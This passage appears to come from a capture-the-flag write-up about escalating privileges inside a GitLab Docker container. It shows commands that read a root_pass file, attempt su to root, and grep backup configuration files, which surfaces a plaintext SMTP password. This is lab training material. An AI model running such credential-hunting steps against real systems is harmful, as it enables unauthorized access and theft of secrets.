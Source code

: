 ```terminal
git@gitlab:/$
```

We see a `.dockerenv` file which tips us off. There's also a very interesting file called `root_pass` inside of the root directory:
```terminal
git@gitlab:/$ cat root_pass
cat root_pass
YG65407Bjqvv9A0a8Tm_7w
```

I wonder if we can use that to switch user `su` to root:
```terminal
git@gitlab:/$ su - root
su - root
Password: YG65407Bjqvv9A0a8Tm_7w

su: Authentication failure
git@gitlab:/$
```

Nope, I guess that won't work. This is the point I go down several rabbit holes, but ultimately this comes down to knowing what's normal and what isn't normal on a linux filesystem. I used LinPEAS to enumerate for me and I glanced over the directory I should've looked at. We can see a lot of our stuff is in `/var/opt/gitlab` but there is another directory we see a few things in too, which is `/opt/gitlab`. Normally you don't see a lot of things in `/opt`. `/opt` is used for "the installation of add-on application software packages." But if you were to check out your `/opt` directory on your attack box now, you probably wouldn't see but maybe one or two items in there. Try running `echo $PATH` and you probably won't see `/opt` in there either. But remember when I ran `which python3`? The `python3` binary was in `/opt/gitlab/embedded/bin`. In fact if I were to run `echo $PATH` on this box I would see:

```terminal
git@gitlab:/$ echo $PATH
echo $PATH
/opt/gitlab/embedded/lib/ruby/gems/2.4.0/bin:/opt/gitlab/bin:/opt/gitlab/embedded/bin:/bin:/usr/bin
```

There seems to be some important stuff in `/opt`. Of course this is hindsight now, but it shows the importance of knowing what you should normally see on a box. So let's see what is in `/opt`:

```terminal
ls -al /opt
total 24
drwxr-xr-x 1 root root 4096 Dec  1 16:23 .
drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
drwxr-xr-x 2 root root 4096 Dec  7 09:25 backup
drwxr-xr-x 1 root root 4096 Dec  1 12:41 gitlab
```

Backups have a tendency to show some goodies. Let's see if there is a `password` inside any of these files. I start broad and work my way down:

First I grep for `password` across all files in the directory:
```terminal
git@gitlab:/opt/backup$ grep 'password' *
grep 'password' *
docker-compose.yml:        gitlab_rails['initial_root_password']=File.read('/root_pass')
gitlab.rb:#### Email account password
gitlab.rb:# gitlab_rails['incoming_email_password'] = "[REDACTED]"
gitlab.rb:#     password: '_the_password_of_the_bind_user'
gitlab.rb:#     password: '_the_password_of_the_bind_user'
gitlab.rb:#   '/users/password',
gitlab.rb:#### Change the initial default admin password and shared runner registration tokens.
gitlab.rb:# gitlab_rails['initial_root_password'] = "password"
gitlab.rb:# gitlab_rails['db_password'] = nil
gitlab.rb:# gitlab_rails['redis_password'] = nil
gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```